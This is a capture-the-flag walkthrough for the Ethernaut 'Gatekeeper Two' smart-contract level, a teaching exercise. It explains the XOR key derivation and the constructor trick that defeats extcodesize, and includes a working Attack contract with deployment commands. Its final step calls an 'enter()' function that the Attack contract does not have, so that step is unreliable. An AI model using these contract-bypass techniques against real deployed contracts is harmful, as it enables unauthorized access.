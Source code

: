## Gatekeeper Two Level Outline

**Difficulty : 6/10**

This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xdCeA38B2ce1768E1F409B6C65344E81F16bEc38d)

## Solution

To pass the first modifier `gateOne()`, the transaction needs to come from a smart contract.

To pass the second modifier `gateTwo()`, the assembly line `extcodesize(a)` checks the code size as address `a`. To bypass this check, we put our exploit code in the contracts constructor as the contracts code is only stored on the EVM after the constructor finishes calling and setting up it's state. So by calling our exploit in the constructor, `extcodesize` will return 0.

To pass the third modifier `gateThree()`, uses xor cipher to hide a key. But the xor operation has the property 

```
if,
A xor B = C
then,
A xor C = B


uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1
A = uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) 
B = uint64(_gateKey) 
C = uint64(0) - 1

so, 
uint64(_gateKey) = uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(0)-1
```

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Attack {
    constructor(address _gateKeeper) {
        GateKeeper gateKeeper = GateKeeper(_gateKeeper);
        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ (type(uint64)).max);
        gateKeeper.enter(key);
    }
}

interface GateKeeper {
   function enter(bytes8) external returns(bool);
}
```
> notice how we replaced 'uint64(0)-1' with type(uint64).max

##### 2. 

```console
forge create src/Contract.sol:Attack --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "enter()" --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading
[0xSage's write up on this level](https://medium.com/coinmonks/ethernaut-lvl-14-gatekeeper-2-walkthrough-how-contracts-initialize-and-how-to-do-bitwise-ddac8ad4f0fd) goes into more depth on these topics

---

##### [:arrow_left: Back To Main Menu](../README.md)
